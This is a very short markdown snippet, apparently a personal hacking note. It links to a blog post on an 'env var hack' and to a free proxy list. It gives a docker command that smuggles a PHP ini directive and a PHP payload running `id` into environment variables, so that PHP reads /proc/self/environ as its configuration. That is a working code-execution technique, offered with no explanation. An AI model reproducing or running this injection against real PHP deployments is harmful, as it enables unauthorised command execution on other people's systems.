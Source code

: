 x
-

[env var hack](https://www.elttam.com/blog/env/)
[proxy](https://geonode.com/free-proxy-list/)

````sh
docker run -e $'HOSTNAME=1;\nauto_prepend_file=/proc/self/environ\n;<?php die(`id`); ?>' \
  -e 'PHPRC=/proc/self/environ' php:7.3 php /dev/null
````
